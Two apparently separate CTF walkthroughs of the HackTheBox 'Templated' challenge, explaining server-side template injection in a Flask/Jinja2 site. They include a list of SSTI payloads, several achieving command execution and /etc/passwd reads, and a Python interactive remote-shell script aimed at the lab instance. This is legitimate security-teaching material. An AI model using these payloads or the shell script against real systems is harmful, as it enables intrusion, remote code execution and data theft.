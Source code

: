 


Templated -Web Challenge HackTheBox Walkthrough

    AjithAjith17 April 2023CTF Challenges, WEB challenges

Table of Contents

    Introduction
        Opening the Vulnerable Website
        Analysis of Website
        Injection and Payload
        Exploit the Vulnerable:
        Find Flag
    Conclusion

Introduction

Hi I’m Ajith ,We are going to complete the Templated – Web challenge  of hack the box, This challenge is very easy to complete
Opening the Vulnerable Website

Start the instance to get the ip address of the website and paste the ip address in the browser
Analysis of Website

They providing the some information in the website interface that is Flask/Jinja2. Normally the Flask is the python framework that helps the developer to develop the web application quickly and easily Jinja2 uses a syntax similar to HTML with special tags that allow for the insertion of dynamic content and the execution of Python code within templates
Injection and Payload

We used the injection name of Server-Side Template Injection,which is a type of security vulnerability that occurs when an attacker is able to inject and execute their own code into a server-side template.

sample payloads for SSIT Injection:
```
1.{{3*3}}
2.{{3*'3'}}
3.<%= 3 * 3 %>
4.${6*6}
5.${{3*3}}
6.@(6+5)
7.#{3*3}
8.{{dump(app)}}
9.{{app.request.server.all|join(',')}}
10.{{config.items()}}
11.{{ [].class.base.subclasses() }}
12.{{''.class.mro()[1].subclasses()}}
13.{{ ''.__class__.__mro__[2].__subclasses__() }}
14.{% for key, value in config.iteritems() %}<dt>{{ key|e }}</dt><dd>{{ value|e }}</dd>{% endfor %}
15.{{'a'.toUpperCase()}} 
16.<%= File.open('/etc/passwd').read %>
17.<#assign ex = "freemarker.template.utility.Execute"?new()>${ ex("id")}
18.{{app.request.query.filter(0,0,1024,{'options':'system'})}}
{{ ''.__class__.__mro__[2].__subclasses__()[40]('/etc/passwd').read() }}
19.{{''.__class__.mro()[1].__subclasses__()[396]('cat /etc/passwd',shell=True,stdout=-1).communicate()[0].strip()}}
20.{{config.__class__.__init__.__globals__['os'].popen('ls').read()}}
21.{% for x in ().__class__.__base__.__subclasses__() %}{% if "warning" in x.__name__ %}{{x()._module.__builtins__['__import__']('os').popen(request.args.input).read()}}{%endif%}{%endfor%}
22.{{['cat\x20/etc/passwd']|filter('system')}}
23.{{request|attr(["_"*2,"class","_"*2]|join)}}
24.{{request|attr(["__","class","__"]|join)}}
25.os.dup2(s.fileno(),1);
```

Exploit the Vulnerable:

We using the payload exploit the page ,First we want to import the normal payload , it will reflect the value in the webpage

{{7*7}}

So we want to import the payload to list all the files of the template engine ,It will relflect the value in the webpage

{{config.__class__.__init__.__globals__['os'].popen('ls').read()}}

Find Flag

Using the same payload to get the flag in the website, But we want to change the ls to cat flag.txt

{{config.__class__.__init__.__globals__['os'].popen('cat flag.txt').read()}}

Conclusion

It was the simple challenge for the beginner, Using this challenge to learned the server-side templated injection ,According to me it was very easy


####
####


Before starting, since this is my first article ( ever ), I wanted to mention that I think this type of format would be the best way to start because I am showcasing my journey to certain types of problems by introducing different variety of solutions. So, then, what’s better way of starting this blog than with some good ol’ HackTheBox challenge.

Let’s start with one of the easier challenges, in this case web-based challenge called Templated. Aside from obvious marker indicating that this is an easy challenge, we also have a pretty short description saying:
So, not much information here…

Name, however, takes us on a different route and that’s that this is the website actually being supported by some kind of templating engine ( like Jinja, Handlebars etc… ).

When we start the instance and go to the page, we see nothing else but this:
Interesting stuff for a home page

This further can be used to confirm that this site does actually utilizes Jinja2 templating engine. In this case, it is worth noting that this also utilizes Python-based microweb framework Flask.

So, one of my first intentions were to try to go around the website and the first link that I wanted to visit ( /hello ) returned a page like this:
404 page

Intuitively, I saw that hello from /hello was copied onto the text of the 404 page paragraph. I thought that I could use this as an XSS vector. So I did.
XSS vector was established

This led me to be assured that this page doesn’t sanitize the input of the route at all which allows me to take control of the client side of the application
Alert executed based on injected functionality

But, what about the server? Would I be able to take control over the templating engine Jinja2 that the application was using? If I would be able to do that, there is a high probability that it would allow me to establish an Python-based RCE. So, I tried.

Since Jinja templating system utilized 2 curly brackets prior opening and closing for variable referencing I did the same thing except I was referencing sum of 2 integers. And it works.
2 + 2 = 4

This motivated me to kinda go a bit deeper with this template referencing. So I started asking myself, if there was a way to actually use Python built-ins directly in the template engine I would be able to establish an RCE. Huh, it seems like you can actually do the exact same thing.
__builtins__ contains __import__

So, after knowing this, I had to do a bit of a research on how we can reference this __import__ module directly from Flask Jinja2 templating engine and I figured out that this can easily be done using in-memory object called request provided by Flask framework.

I used this to import os module, execute the command using popen function and finally retrieve the command output using read function. All of that look simply like this.
RCE established

Now, I will complicate stuff a bit by writing my own RCE script in Python ( irony ) just for fun and for the sake of it. And the final RCE script code looks like this:
```
import requests
import re

url = "http://178.128.45.143:32008/"

while True:
    cmd = input(" $ ")
    r = requests.get(url + "{{request.application.__globals__.__builtins__.__import__('os').popen('" + cmd + "').read()}}")
    text = r.text
    output = re.findall("<str>(.*?)</str>", text, re.DOTALL)
    if (len(output) > 0):
        print(output[0])
```

Essentially, we are just sending the GET request to the exploit we discovered except we got a bit more flexible environment to work in. So initial execution looks like this:
Remote execution and retrieval of information using ls command

And immediately, I noticed a file named flag.txt. When we check the contents of this file:
Flag found!

We can see the final flag hiding in the root of the system that hosts this application. This flag, can then, directly be submitted to HTB and we can mark this challenge as done!

####
####
